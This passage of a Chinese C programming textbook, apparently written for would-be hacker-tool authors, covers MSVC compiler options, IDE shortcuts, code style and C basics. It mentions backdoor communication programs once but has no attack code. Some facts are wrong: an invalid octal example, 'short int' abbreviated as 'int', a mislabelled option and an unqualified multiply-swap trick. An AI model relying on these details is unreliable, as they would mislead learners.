| Debug 版本 | `/Gm` | 打开最小重链接开关，减少链接时间 |
| Release 版本 | `/MD` `/ML` 或 `/MT` | 使用发布版本的运行时刻函数 |
| Release 版本 | `/O1` 或 `/O2` | 优化开关，使程序最小或最快 |
| Release 版本 | `/D "NDEBUG"` | 关闭条件编译调试代码开关（即不编译 `assert` 函数） |
| Release 版本 | `/GF` | 合并重复的字符串，并将字符串常量放到只读内存，防止被修改 |

“我们甚至可以修改这些选项，从而得到优化过的调试版本，或是带跟踪语句的发布版本。在 VC 的工程设置中，可以清晰地看出两者的区别。选择菜单‘项目’->‘属性’，Debug 和 Release 版所设置的参数对比如图 1-29、图 1-30 所示。”

“我们在 CMD 命令执行环境下，用 `cl` 再次编译 `HelloWorld.cpp` 和 `stdafx.cpp` 这两个文件，并带入和 Debug 一样的编译参数，如图 1-31。”

```bash
cl /Od /D "WIN32" /D "_DEBUG" /D "_CONSOLE" /D "_MBCS" /Gm /EHsc /RTC1 /MLd /Fo"Debug/" /W3 /nologo /c /Wp64 /ZI /TP HelloWorld.cpp stdafx.cpp
```

“这样生成了 `obj` 文件，然后再使用 `link.exe` 工具链接，参数也参照 VC 里面的设置，如图 1-32，其输入如下。”

```bash
D:\Book\Cha1\HelloWorld>link /OUT:"Debug/HelloWorld.exe" /INCREMENTAL /NOLOGO /DEBUG /PDB:"Debug/HelloWorld.pdb" /SUBSYSTEM:CONSOLE /MACHINE:X86 kernel32.lib user32.lib gdi32.lib winspool.lib comdlg32.lib advapi32.lib shell32.lib ole32.lib oleaut32.lib uuid.lib odbc32.lib odbccp32.lib Debug/HelloWorld.obj Debug/stdafx.obj
```

“命令运行后就生成了 104K 大小的 Debug 版本的 `HelloWorld.exe` 了。”

“原来我们可以控制整个过程啊！”小菜们看着这种奇观的一幕，都不禁感叹起来。

“好了，Release 版本在 CMD 命令行下的生成就留给大家做练习吧！记住，不要被 VC 的表面所迷惑，要了解其本质！在命令行下输入 `-?` 参数就可以看见详细的帮助信息，参数列表附下。”

- 微软 C/C++ 编译器选项
- 优化
  - `/O1` 最小化空间
  - `/Op[-]` 改善浮点数一致性
  - `/O2` 最大化速度
  - `/Os` 优选代码空间
  - `/Oa` 假设没有别名
  - `/Ot` 优选代码速度
  - `/Ob<n>` 内联展开（默认 `n=0`）
  - `/Ow` 假设交叉函数别名
  - `/Od` 禁用优化（默认值）
  - `/Ox` 最大化选项（`/Ogityb2 /Gs`）
  - `/Og` 启用全局优化
  - `/Oy[-]` 启用框架指针省略
  - `/Oi` 启用内部函数
- 代码生成
  - `/G3` 为 80386 进行优化
  - `/GH` 启用 `_pexit` 函数调用
  - `/G4` 为 80486 进行优化
  - `/GR[-]` 启用 C++ RTTI
  - `/G5` 为 Pentium 进行优化
  - `/GX[-]` 启用 C++ EH（与 `/EHsc` 相同）
  - `/G6` 为 PPro、P-II、P-III 进行优化
  - `/EHs` 启用 C++ EH（无 SEH 异常）
  - `/GB` 为混合模型进行优化（默认）
  - `/EHa` 启用 C++ EH（含 SEH 异常）
  - `/Gd` `__cdecl` 调用约定
  - `/EHc` 外部 “C” 默认认为 `nothrow`
  - `/Gr` `__fastcall` 调用约定
  - `/GT` 生成纤维安全 TLS 访问
  - `/Gz` `__stdcall` 调用约定
  - `/Gm[-]` 启用最小重新生成
  - `/GA` 为 Windows 应用程序进行优化
  - `/GL[-]` 启用链接时代码生成
  - `/Gf` 启用字符串池
  - `/QIfdiv[-]` 启用 Pentium FDIV 修复
  - `/GF` 启用只读字符串池

## 第二章 编程基础知识

| 选项 | 说明 |
|---|---|
| /QIfist[-] | 启用 Pentium FDIV 修复 |
| /Gy | 分隔链接器函数 |
| /QIfist[-] | 使用 FIST 而不是 ftol() |
| /GZ | 启用堆栈检查 (/RTCs) |
| /RTC1 | 启用快速检查 (/RTCsu) |
| /Ge | 对所有函数强制堆栈检查 |
| /RTCc | 转换为较小的类型检查 |
| /Gs[num] | 控制堆栈检查调用 |
| /RTCs | 堆栈帧运行时检查 |
| /GS | 启用安全检查 |
| /RTCu | 未初始化的本地用法检查 |
| /Gh | 启用 _penter 函数调用 |
| /clr[:noAssembly] | 为公共语言运行时库编译；noAssembly——不产生程序集 |

#### 输出文件

| 选项 | 说明 |
|---|---|
| /Fa[file] | 命名程序集列表文件 |
| /Fo<file> | 命名对象文件 |
| /FA[sc] | 配置程序集列表 |
| /Fp<file> | 命名预编译头文件 |
| /Fd[file] | 命名 PDB 文件 |
| /Fr[file] | 命名源浏览器文件 |
| /Fe<file> | 命名可执行文件 |
| /FR[file] | 命名扩展 .SBR 文件 |
| /Fm[file] | 命名映射文件 |

#### 预处理器

| 选项 | 说明 |
|---|---|
| /AI<dir> | 添加到程序集搜索路径 |
| /Fx | 将插入的代码合并到文件 |
| /FU<file> | 强制使用程序集/模块 |
| /FI<file> | 命名强制包含文件 |
| /C | 不抽出注释 |
| /U<name> | 移除预定义宏 |
| /D<name>{=&#124;#}<text> | 定义宏 |
| /u | 移除所有预定义宏 |
| /E | 预处理到 stdout |
| /I<dir> | 添加到包含搜索路径 |
| /EP | 预处理到 stdout，没有 #line |
| /X | 忽略“标准位置” |
| /P | 预处理到文件 |

#### 语言

| 选项 | 说明 |
|---|---|
| /Zi | 启用调试信息 |
| /Zl | 忽略 .OBJ 中的默认库名 |
| /ZI | 启用“编辑并继续”调试信息 |
| /Zg | 生成函数原型 |
| /Z7 | 启用旧式调试信息 |
| /Zs | 只进行语法检查 |
| /Zd | 仅有行号调试信息 |
| /vd{0&#124;1} | 禁用/启用 vtordisp |
| /Zp[n] | 在 n 字节边界上包装结构 |
| /vm<x> | 指向成员的指针类型 |
| /Za | 禁用扩展（暗指 /Op） |
| /noBool | 禁用“bool”关键字 |
| /Ze | 启用扩展（默认） |
| /Zc:arg1[,arg2] | C++ 语言一致性，这里的参数可以是 forScope——对范围规则强制使用标准 C++；wchar_t——wchar_t 是本机类型，不是 typedef |

#### 杂项

| 选项 | 说明 |
|---|---|
| @<file> | 选项响应文件 |
| /wo<n> | 发出一次警告 n |
| /?, /help | 打印此帮助消息 |
| /W<l><n> | 为 n 设置警告等级 l-4 |
| /c | 只编译，不链接 |
| /W<n> | 设置警告等级（默认 n = 1） |
| /H<num> | 最大外部名称长度 |
| /Wall | 启用所有警告 |
| /J | 默认 char 类型是 unsigned |
| /Wp64 | 启用 64 位端口定位警告 |
| /nologo | 取消显示版权消息 |
| /WX | 将警告视为错误 |
| /showincludes | 显示包含文件名 |
| /WL | 启用单行诊断 |
| /Tc<source file> | 将文件编译为 .c |
| /Yc[file] | 创建 .PCH 文件 |
| /Tp<source file> | 将文件编译为 .cpp |
| /Yd | 将调试信息放在每个 .OBJ 中 |
| /TC | 将所有文件编译为 .c |
| /Yl[sym] | 为调试库插入 .PCH 引用 |
| /TP | 将所有文件编译为 .cpp |
| /Yu[file] | 使用 .PCH 文件 |
| /V<string> | 设置版本字符串 |
| /YX[file] | 自动 .PCH |
| /w | 禁用所有警告 |
| /Y- | 禁用所有 PCH 选项 |
| /wd<n> | 禁用警告 n |
| /Zm<n> | 最大内存分配（默认为 %） |
| /we<n> | 将警告 n 视为错误 |

#### 链接

| 选项 | 说明 |
|---|---|
| /MD | 与 MSVCRT.LIB 链接 |
| /MDd | 与 MSVCRTD.LIB 调试库链接 |
| /ML | 与 LIBC.LIB 链接 |
| /MLd | 与 LIBCD.LIB 调试库链接 |
| /MT | 与 LIBCMT.LIB 链接 |
| /MTd | 与 LIBCMTD.LIB 调试库链接 |
| /LD | 创建 .DLL |
| /F<num> | 设置堆栈大小 |
| /LDd | 创建 .DLL 调试库 |
| /link | 链接器选项和库 |

## 1.3.3 IDE界面

VC 的第二个主要功能是提供图形化的编程界面（IDE 界面）。首先，VC 是一个很好的编辑器，在 VC 中对 C 和 C++ 文件进行编辑时，它可以自动识别语言的关键字并标识出来。选择菜单上的“文件”->“打开”，弹出打开文件对话框，如图 1-33。可以看到，VC2003 不仅可以打开 txt 文件、C/C++ 文件，也可以打开 web 文件、数据库文件、二进制文件等并加以修改。VC 的编辑功能不亚于任何一款文字处理程序。

其次，在开发中，VC 可以智能地把文件按物理位置和逻辑功能加以组织，包括类视图、资源视图和文件视图，大大方便程序员对工程的开发。再次，VC 作为一个 IDE 开发工具，可以很方便地设置编译和链接的参数，帮助开发者使用。在命令行下直接使用 CL 编译程序，即使是对于老手来说都是很麻烦的，将其集成在 IDE 中，只用点几个菜单就可以完成了，这非常方便初学者入门。如果要修改设置，选择“工程”->“设置”，在 Link 面板下可以看到诸多的选项，如图 1-34，而这些选项的意义，在上边一节内容中有详细的列表。

## 1.3.4 板式规范和快捷键

“我们在玩游戏，比如星际、魔兽、在线游戏时都离不开快捷键，快捷键可以提高效率、节约时间，提升 APM。编程也是如此，在 VC2003 里，有一些很有用的快捷键，可以帮助我们大大提高编程的效率。别小看了这些设置的快捷键，方便一点就可以使我们节省成千上万次的操作。”

“在 C++ 里，单行的注释以‘//’开头，多行的注释以‘/*’和‘*/’。但在很多行代码的开始和结尾添加‘/*’或‘*/’是很麻烦的事情。在调试时，会经常在注释与取消注释间切换，这时忘记添加或删除‘/*’或‘*/’也是很难免的事情。为此，.NET 框架提供了多行注释的功能，方法是选择好要添加注释的部分，然后使用菜单‘编辑’->‘高级’->‘注释选定内容’，如果想删除注释，就选择‘取消注释选定内容’，如图 1-35。”

“但点击菜单还是很麻烦，特别是目录又这么深，还费劲。我们可以使用快捷键，选定要添加注释的部分后，先按 Ctrl+K，再按一次 Ctrl+C 即可；如果要删除注释，则先按 Ctrl+K，再按一次 Ctrl+U。”

“另外，编程的时候还要注意版式。版式虽然不会影响程序的功能，但会影响可读性。程序的版式追求清晰、美观，是程序风格的重要构成因素。可以把程序的版式比喻为‘书法’，好的‘书法’可让人对程序一目了然，看得兴致勃勃，差的程序‘书法’如螃蟹爬行，让人看得索然无味，更令维护者烦恼有加。所以一定要注意学习和实践程序的‘书法’。”

“一些初学者特别需要注意的版式规则如下：要注意打空行。空行起着分隔程序段落的作用。空行得体（不过多也不过少）将使程序的布局更加清晰。空行不会浪费内存，所以应该在逻辑上不密切相关的语句之间加空行。一行代码只做一件事情，如只定义一个变量，或只写一条语句。这样的代码容易阅读，并且方便于写注释。”

“空格，这个要特别注意，初学者喜欢一口气把一行代码写完，生怕遗漏什么似的，密密麻麻，非常影响代码阅读。其实，对于二元操作符，比如赋值操作符、比较操作符、算术操作符、逻辑操作符、位域操作符，即‘=’、‘+=’、‘>=’、‘<=’、‘+’、‘*’、‘%’、‘&&’、‘||’、‘<<’、‘^’等，应当在其前后敲入空格。比如写成 year >= 2000，不要写成 year>=2000 了。”

“初学者另一个问题就是不注意对齐和缩进。程序的分界符‘{’和‘}’应独占一行并且位于同一列，同时与引用它们的语句左对齐。低一层次的语句或说明可比高一层次的语句或说明缩进，以便看起来更加清晰，保持美观。出现嵌套的 {}，使用缩进对齐。在对齐和缩进的时候大家可以用 Tab 键来实现对齐和缩进的目的。比如：”

```c
{
    ...
    {
        ...
    }
    ...
}
```

小菜们想了想，说道：“哦，怪不得刚才那个 _tmain 程序会那样编写，就是考虑了空行、缩进和对齐的问题啊。”

“对！”老师又让小菜们回顾了一下刚才的 HelloWorld 程序。

```c
int _tmain(int argc, _TCHAR* argv[])
{
    printf("ww0830"); // 打印出字符串

    return 0;
}
```

“另外，当括号比较多的时候，如果想找到某个括号对应的反括号，只需要把光标放在括号的位置，然后按 Ctrl+]，光标就会跳到匹配的括号处。比如我们在 HelloWorld 程序中，在第一个‘{’处按 Ctrl+]，光标就会跳到最后一行的‘}’，反之在最后一行的‘}’按 Ctrl+]，光标就会跳到前面的那个‘{’了。”

“大括号、中括号、小括号，都可以用这种方法来匹配。”老师又补充说道。

“最后需要注意的是注释，注释是对重要的代码行或段落提示。如果没有注释，一段代码过了半年，可能编写者自己都搞不清楚是什么意思了。恰当的注释可以提高代码的可维护性。”

“我们在编写程序的过程中，一定要注意版式的规范性。但有时从其它地方拷过来的代码，版式可能会不对，比如没有对齐、缩进，这就需要对版式进行整理，使其统一到风格中。不过人工整理实在太费时费力了，.NET 可以对格式进行自动整理，方法是选择好要整理的部分，然后先按一下 Ctrl+K，再按一次 Ctrl+F 即可。举个例子，如果我们编写的代码没有正确的缩进，我们将需要调整的部分选中，如图 1-36。”

“然后先按一下 Ctrl+K，状态栏上则会显示‘（Ctrl+K）已按下。正在等待第二个键…’，如图 1-37。我们再按一下 Ctrl+F，大家看，代码的版式就调整好了，如图 1-38。”

“哦，还真方便啊。”小菜们说道。

“是的，不过大家还是要在编写代码的时候就注意版式的规范，不要想着最后再用这个方法来调整，而且表达式中的空格、代码中的空行，用这个方法也是添加不上的。”

“在这里顺便也列出一些 Windows 系统下很有用的快捷键。Ctrl+C 复制，Ctrl+V 粘贴，这个就不用说了，经常有调侃那些天下文章一大抄的人，Ctrl+C 加 Ctrl+V，就是说复制粘贴的意思。键盘上 Ctrl 和 Alt 之间的键被称为 Win 键，就是有 Windows 图标的那个键，直接按它会弹出开始菜单，如果和其它键合用，会有很多强大的功能。”

- Win+D 显示桌面
- Win+E 打开资源管理器
- Win+L 直接锁屏

“还有一些自己在 .NET 中常用的快捷键也总结在这里吧。”

- Ctrl+K，Ctrl+C 添加注释
- Ctrl+K，Ctrl+U 取消注释
- Ctrl+K，Ctrl+E 格式化版面
- Ctrl+] 寻找对应的括弧
- Ctrl+Shift+B 生成解决方案
- F9 设置断点
- F5 开始调试
- Ctrl+F5 直接运行（不调试）

### 1.3.5 MFC

“VC 除了编译器和集成文件编辑器外，第三个功能是提供了 MFC 编程接口，这是和一般 C/C++ 编译器最大的不同之处。”

> **小知识：**MFC（Microsoft Foundation Class Library，微软基础类库）是为了方便程序员开发 Windows 程序而提供的。MFC 是面向对象程序设计与 Application Framework 的完美结合，它将传统的 API 进行了分类封装，并且为我们创建了程序的一般框架，我们只要随便添加几行代码，就能形成自己的程序，非常方便。MFC 采用了面向对象的思想，本身使用 C++ 语言完成。

“在安装了 VC 后，会在 VC 安装目录的 VC98\MFC\Include 和 VC98\MFC\SRC 下出现 MFC 的头文件和源代码，如图 1-39。”

“这样就可以使用 MFC 进行程序开发了，但黑客网络工具的编程，特别是后门通信程序，不会更多地使用 MFC，因为使用 MFC 后会有很多冗余的代码，生成的文件会变得很大，效率不高。所以，我们只用 MFC 编写用户界面，这会在后面进行详细的讲解，在这之前，大家还是把精力集中在根本的编程和网络编程上吧。”

## 1.4 C语言简介

“明白了 VC 的本质，我们编写个复杂点也好玩点的程序吧，也进一步熟悉 VC 里的一些重要操作。”老师说道。

“好呀！”小菜们喊道。

“嗯，不过在这之前，我们还是要先稍微看看 C 语言的一些基础概念。”

## 1.4.1 C语言的历史

“C 语言是目前最流行、使用最广泛的高级程序设计语言。”

“C 语言的原型是 ALGOL 60 语言。1963 年，剑桥大学将 ALGOL 60 语言进行发展，成为 CPL（Combined Programming Language）语言。1967 年，剑桥大学的 Martin Richards 对 CPL 语言进行了简化，于是产生了 BCPL 语言。1970 年，美国贝尔实验室的 Ken Thompson 将 BCPL 进行了修改，并以第一个字母 B 取名为‘B 语言’，意思是将 CPL 语言精简掉，提炼出它的精华。并且 Ken Thompson 用 B 语言写了第一个 UNIX 操作系统。而在 1973 年，B 语言又再次精简，美国贝尔实验室的 D.M. Ritchie 在 B 语言的基础上最终设计出了一种新的语言，他取了 BCPL 的第二个字母作为这种语言的名字，这就是 C 语言。”

“为了使 UNIX 操作系统推广，1977 年 Dennis M. Ritchie 发表了不依赖于具体机器系统的 C 语言编译文本《可移植的 C 语言编译程序》。1978 年 Brian W. Kernighan 和 Dennis M. Ritchie 出版了名著《The C Programming Language》，从而使 C 语言成为目前世界上流行最广泛的高级程序设计语言。1988 年，随着微型计算机的日益普及，出现了许多 C 语言版本，由于没有统一的标准，使得这些 C 语言之间出现了一些不一致的地方。为了改变这种情况，美国国家标准研究所（ANSI）为 C 语言制订了一套 ANSI 标准，成为现行的 C 语言标准。”

“C 语言功能强大，使用灵活，它具有高级语言的基本结构和语句，又可以像汇编语言一样对位、字节和地址进行操作，所以 C 语言又被称为中级语言。C 语言生成代码的质量高，程序执行效率高，除了 UNIX，许多著名的系统软件，如 DBASE III PLUS、DBASE IV 都是由 C 语言编写的。C 语言还可以嵌入汇编，用 C 语言加上一些汇编语言子程序，就更能显示 C 语言的优势了，像 PC-DOS、WORDSTAR 等就是用这种方法编写的。”

“好了。”老师一挥手说道，“说了这么多，其实都是废话，我想说明的就是 C 语言很流行，很强大，很重要。如果大家要从事程序设计方面的学习和工作，应该要学好 C 语言。接下来我们看看 C 语言的基础知识吧，但学习的关键还是在实际中灵活运用，遇到不知道的问题时，查查资料就行了。”

## 1.4.2 C语言的字符集

字符是组成语言的最基本的元素，C 语言字符集由字母、数字、空格、标点和特殊字符组成。在字符常量、字符串常量和注释中还可以使用汉字或其它可表示的图形符号。

- 1. 字母：小写字母 a~z 共 26 个，大写字母 A~Z 共 26 个。
- 2. 数字：0~9 共 10 个。
- 3. 标点和特殊字符。
- 4. 空白符：空格、换行、Tab 等统称为空白符。空白符只在字符常量和字符串常量中起作用。在其它地方出现时，只起间隔作用，编译器对它们忽略。因此在程序中使用空白符与否，对程序的编译不发生影响。

老师又说道：“再强调一下，我们应该在程序的适当地方充分使用空白符以增加程序的清晰性和可读性。比如使用空格来分离二元操作符、用回车来分隔程序段落、用 Tab 来对齐和缩进。”

## 1.4.3 C语言的词汇

在 C 语言中使用的词汇分为六类：标识符、关键字、运算符、分隔符、常量和注释符。

- 1. 标识符

在程序中使用的变量名、函数名、标号等统称为标识符。除库函数的函数名由系统定义外，其余都由用户自定义。C 规定，标识符只能是字母（A～Z、a～z）、数字（0～9）、下划线组成的字符串，并且其第一个字符必须是字母或下划线。

> “大家注意了，C 语言中是区分大小写的。比如 WW、ww 以及 wW、Ww 都是不同的标识符，所以如果编译器出现了没有定义的错误，一定要检查一下是否是因为这个原因。”老师歇了下又继续说道：“在 C 程序中，全部大写的标识符，比如 WW，一般代表一个常量，所以大家要讲究卫生，不要乱涂乱画，随便定义全大写的标识符哦。”

- 2. 关键字

关键字是由 C 语言规定的具有特定意义的字符串，通常也称为保留字，比如 int、double、if、else、#include 等。用户定义的标识符不能与关键字相同。

> “大家都已经看到了。”老师说道，“在 VC 中，关键字会被自动标识成蓝色的，这就是为了避免在命名时出现和关键字的重叠。”

- 3. 运算符

C 语言中含有相当丰富的运算符。运算符与变量、函数一起组成表达式，完成各种运算功能。

C 语言的运算符可分为以下几类：

- 算术运算符：用于各类数值运算。包括加（+）、减（-）、乘（*）、除（/）、求余（或称模运算，%）、自增（++）、自减（--）共七种。
- 关系运算符：用于比较运算。包括大于（>）、小于（<）、等于（==）、大于等于（>=）、小于等于（<=）和不等于（!=）六种。
- 逻辑运算符：用于逻辑运算。包括与（&&）、或（||）、非（!）三种。
- 位操作运算符：参与运算的量，按二进制位进行运算。包括位与（&）、位或（|）、位非（~）、位异或（^）、左移（<<）、右移（>>）六种。
- 赋值运算符：用于赋值运算，分为简单赋值（=）、复合算术赋值（+=、-=、*=、/=、%=）和复合位运算赋值（&=、|=、^=、>>=、<<=）三类，共十一种。
- 条件运算符：这是一个三目运算符，用于条件求值（?:）。
- 逗号运算符：用于把若干表达式组合成一个表达式（,）。
- 指针运算符：用于取内容（*）和取地址（&）二种运算。
- 求字节数运算符：用于计算数据类型所占的字节数（sizeof）。
- 特殊运算符：有括号 ()、下标 []、成员（->、.）等几种。

> “好了，趁着有这么多运算符，机不可失，失不再来！出一个经典的问题让大家活动下脑子吧，如何在不使用第三个变量的情况下来交换两个变量。”

老师进一步解释道：“就是说，假设有两个整型变量 a 和 b，如果可以定义另外一个变量，比如 tmp，那么将 a、b 的值互换是很简单的事情，代码如下。”

```c
int a = 1;
int b = 2;
int tmp = a;
a = b;
b = tmp;
```

小菜们仔细看了一下，说道：“先将 a 的值给 tmp 存着，然后把 b 的值赋给 a，最后 b 再从 tmp 中得到 a 原来的值。没错，经典的三次交换！我们建立个控制台工程测试试看，并打印 a、b 交换前和交换后的值，果然正确啊，如图 1-40！”

# 第一章 编程基础知识

“好了，现在的要求是不使用中间变量 tmp，那如何交换 a、b 的值呢？”

“嗯？不用 tmp？直接 a = b？但这样 a 的值就会被覆盖了，b 就得不到 a 原来的值了啊？”

“呵呵，一个常用的技巧如下：”

```c
a = a + b;
b = a - b;
a = a - b;
```

“这样就可以了？”

“是的，我们分析一下，用 a、b 表示它们原来的值，而 a'、b' 为改变过程中的值：首先 a' = (a+b)，然后 b' = a' - b = (a+b)-b = a；最后 a'' = a' - b' = (a+b)-a = b，大家看，a 和 b 的值就交换过来了。”

“哇！我们测试一下，果然是这样哦，如图 1-41。”

“那我们相乘也可以。”小菜们马上想到了另一种方法。

```c
a = a * b;
b = a / b;
a = a / b;
```

也就是说：首先 a' = (a*b)，然后 b' = a' / b = (a*b)/b = a；最后 a'' = a' / b' = (a*b)/a = b，哈哈，测试一下，果然还是正确，如图 1-42。

“这么说来，只用一个操作符也可以了，比如异或！”

```c
a = a ^ b;
b = a ^ b;
a = a ^ b;
```

过程是：首先 a' = (a^b)，然后 b' = a'^b = (a^b)^b = a；最后 a'' = a'^b' = (a^b)^a = b，如图 1-43。

“好了，好了，大家都很聪明啊。”老师最后总结道，“其实，只要找出来两个操作符 P1、P2，使得 P2(P1(a, b), b) = a 就可以了。比如在 a * b / b = a 中，P1 就是乘法，P2 就是除法。OK，智力广播操完毕，我们继续看看 C 语言的相关概念吧。”

#### （4）分隔符

在 C 语言中采用的分隔符有逗号和空格两种。逗号主要用在类型说明和函数参数表中，分隔各个变量，比如，Fun(int arg1, int arg2)。而空格用于语句各单词之间，作间隔符，比如 int Fun(int arg1, int arg2)，函数返回类型 int 和函数名 Fun 之间必须要有一个空格，不能写成 intFun 了。

#### （5）常量

C 语言中使用的常量可分为数字常量、字符常量、字符串常量、符号常量、转义字符等多种。

#### （6）注释符

C 语言的注释符是以 “/*” 开头并以 “*/” 结尾的串。在 “/*” 和 “*/” 之间的即为注释。程序编译时，不对注释作任何处理。C++ 的注释还有一种 “//” 的单行注释方法，即从 “//” 到本行结束，都是注释内容。

### 1.4.4 基本数据类型

在 C 语言中有以下五种基本数据类型：整型（int）、浮点型（float）、字符型（char）、指针型（*）和空类型（void）。按取值是否可改变，又分为常量和变量两种。常量与数据类型结合起来，就有整型常量、整型变量、浮点常量、浮点变量、字符常量、字符变量这几类。在程序中，常量可以不经说明而直接引用，而变量则必须先说明后使用。

#### （1）整型

整型的说明

加上不同的修饰符，整型数有以下几种类型：

- `signed short int`：有符号短整型。简写为 `int`，字长为 2 字节共 16 位二进制数，数的范围是 -32768～32767。
- `signed long int`：有符号长整型。简写为 `long`，字长为 4 字节共 32 位二进制数，数的范围是 -2147483648～2147483647。
- `unsigned short int`：无符号短整型。简写为 `unsigned int`，字长为 2 字节共 16 位二进制数，数的范围是 0～65535。
- `unsigned long int`：无符号长整型。简写为 `unsigned long`，字长为 4 字节共 32 位二进制数，数的范围是 0～4294967295。

> “其实，我们只要知道了某种类型的字节长度，就可以算出数的表示范围。比如 `unsigned short int` 是 2 字节 16 位，它能表示的最大的数据当然是全部位都置成 1，用二进制表示就是 `(1111 1111 1111 1111)B` 了。这个数的大小就是 `(1111 1111 1111 1111)B = (1 0000 0000 0000 0000)B - 1 = 2^16 - 1 = 65535` 了！”

> 小菜们拿出计算器噼噼啪啪地算了一通，“哦，果然是啊！”

> “不同类型的字长只是规范里面的建议，不同的编译器和不同的系统有可能是不一样的。”老师补充道，“我们可以使用 `sizeof()` 查看不同类型所占的字节，代码如下。”

```c
printf("%d\n", sizeof(short));
printf("%d\n", sizeof(int));
printf("%d\n", sizeof(long));
```

#### 小知识：sizeof() 运算符

Sizeof 是 C/C++ 中的一个操作符（operator），其作用是返回一个对象或者类型所占的内存字节数。

“上边程序在 VC++ 中的执行结果如图 1-44 所示。”

“哦，是 2、4、4 啊，就是说 `short` 是 2 字节，`int` 和 `long` 都是占用 4 个字节，和前面的规范有点不一样！”小菜们说道。

“是的，而且 64 位机上，其字长都会增加一倍。所以大家不能死记硬背，需要具体环境具体分析。”

整型常量的表示

按不同的进制区分，整型常数有三种表示方法：

- 十进制数：以非 0 开始的数，比如 `220`、`-560`、`45900`
- 八进制数：以 `0` 开始的数，比如 `06`、`0106`、`05788`
- 六进制数：以 `0X` 或 `0x` 开始的数，比如 `0X0D`、`0XFF`、`0x4e`

另外，可以在整型常数后面添加一个 `L` 或 `l` 字母表示该数为长整型数，比如 `22L`、`0773L`、`0Xae4l`。

整型变量

可以用下列语句定义整型变量：

```c
int a, b = 0;          /* a、b 被定义为有符号短整型变量 */
unsigned long c = 50;  /* c 被定义为无符号长整型变量 */
```

#### （2）浮点型

浮点数说明

在 C 语言中有以下两种类型的浮点数：

- `float`：单浮点数。字长为 4 个字节共 32 位二进制数，数的范围是 `3.4x10^-38`～`3.4x10^+38`。
- `double`：双浮点数。字长为 8 个字节共 64 位二进制数，数的范围是 `1.7x10^-308`～`1.7x10^+308`。

例如：+29.56、-56.33、-6.8e-18、6.365

说明：

- 1. 浮点常数只有一种进制（十进制）。
- 2. 所有浮点常数都被默认为 double。
- 3. 绝对值小于 1 的浮点数，其小数点前面的零可以省略。例如 0.22 可写为 .22，-0.0015E-3 可写为 -.0015E-3。

浮点型变量

可以用下列语句定义浮点型变量：

```c
float a, f = 0.830;        /* a、f 被定义为单浮点型变量 */
double b = 3.1415926;      /* b 被定义为双浮点型变量 */
```

#### （3）字符型

字符变量

加上不同的修饰符，可以定义有符号和无符号两种类型的字符型变量，例如：

```c
char a;                 /* a 被定义为有符号字符变量 */
unsigned char l;        /* l 被定义为无符号字符变量 */
```

另外，也可以定义一个字符型数组，此时该数组表示一个字符串。例如 `char str[10];`。

计算机在编译时，将留出连续 10 个字符的空间，即 `str[0]` 到 `str[9]` 共 10 个变量，但只有前 9 个供用户使用，第 10 个 `str[9]` 用来存放字符串终止符 NULL，即 `"\0"`，终止符是编译程序自动加上的，这一点要特别注意。

字符常量的表示

能用符号表示的字符可直接用单引号括起来表示，如 `'a'`、`'9'`、`'Z'`，也可用该字符的 ASCII 码值表示，例如十进制数 85 表示大写字母 U，十六进制数 `0x5d` 表示 `]`，八进制数 `0102` 表示大写字母 B。

一些不能用符号表示的控制符，只能用 ASCII 码值来表示，如十进制数 10 表示换行，十六进制数 `0x0d` 表示回车，八进制数 `033` 表示 Esc。

有些常用的字符用以下特殊规定来表示：

| 规定符 | 等价于 | 含义 |
|---|---|---|
| `'\f'` | `'\X0C'` | 换页 |
| `'\r'` | `'\X0D'` | 回车 |
| `'\t'` | `'\X09'` | 制表键 |
| `'\n'` | `'\X0A'` | 换行 |
| `'\\'` | `'\X5C'` | `\` 符 |
| `'\''` | `'\X27'` | `'` 符 |
| `'"'` | `'\X22'` | `"` 符 |

对于字符串常量，一般用双引号括起来表示，如 “Hello Turbo C2.0”。

#### （4）指针型

指针是一种特殊的数据类型，指针是指向变量的地址，实质上指针就是存储单元的地址。根据所指的变量类型不同，可以是整型指针（int *）、浮点型指针（float *）、字符型指针（char *）、结构指针（struct *）和联合指针（union *）。

#### （5）空类型

空类型字节长度为 0，主要有两个用途：一是明确地表示一个函数不返回任何值，二是产生一个同一类型指针（可根据需要动态分配给其内存）。例如 `void *buffer;` /* buffer 被定义为空类型指针 */。

> “啊，大梦谁先觉，平生我自知；草堂春睡足，窗外日迟迟。”小菜们望着一大堆的概念，“困 S 俺们了……”

> “呵呵，的确，这些东西到时候翻看一下就可以了。大家顶住！还有最后几个概念性的东西就好了！”

### 1.4.5 变量的命名规范

“变量的命名十分重要，如果在一个较大的项目中写程序，或者希望现在写好的程序几个月后任何人拿来都能清晰地看懂，命名规范是不可缺少的。”老师说道，“而匈牙利命名法就是一种编程时的命名规范。匈牙利命名法的基本原则是：变量名 = 属性 + 类型 + 对象描述。其中每一对象的名称都要前有明确含义，可以取对象名字全称或名字的一部分。命名要易于记忆、容易理解的原则，保证名字的连贯性是非常重要的。这种命名法的出发点是把变量名按‘属性 + 类型 + 对象描述’的顺序组合起来，以使程序员使用变量时对变量的类型和其它属性有直观的了解。”

属性部分：全局变量 `g_`，常量 `c_`，C++ 类成员变量 `m_`，静态变量 `s_`

类型部分：指针 `p`，函数 `fn`，无效 `v`，句柄 `h`，长整型 `l`，布尔 `b`，浮点型（有时也指文件）`f`，双字 `dw`，字符串 `sz`，短整型 `n`，双精度浮点 `d`，计数 `c`（通常用 `cnt`），字符 `ch`（通常用 `c`），整型 `i`（通常用 `n`），字节 `by`，字 `w`，实型 `r`，无符号 `u`

描述部分：最大 `Max`，最小 `Min`，初始化 `Init`，临时变量 `T`（或 `Temp`），源对象 `Src`，目的对象 `Dest`

老师说道：“比如声明最大值，可以写成 **int iMaxValue;**，声明姓名字符串，就写成 **char strName[10];**，还有比如 **int iNumber;**、**long lTotalNumber;** 等。变量命名的原则就是清晰易懂。大家注意，在比较大的 IT 公司里，如果变量命名不规范，代码会被打回重写的哦！”老师最后说道。

### 1.4.6 数组

所谓数组就是指具有相同数据类型的变量集，并拥有共同的名字。数组中的每个特定元素都使用下标来访问。数组由一段连续的存储地址构成，最低的地址对应于第一个数组元素，最高的地址对应最后一个数组元素。数组可以是一维的，也可以是多维的。

#### （1）一维数组

一维数组的说明格式是：类型 变量名[长度]；

类型是指数据类型，即每一个数组元素的数据类型，包括整数型、浮点型、字符型、指针型以及结构和联合。例如：

```c
int a[10];
unsigned long a[20];
char *s[5];
char *f[];
```

说明：数组都是以 0 作为第一个元素的下标，因此，当说明一个 **int a[16]** 的整型数组时，表明该数组有 16 个元素 **a[0]~a[15]**，每一个元素为一个整型变量。

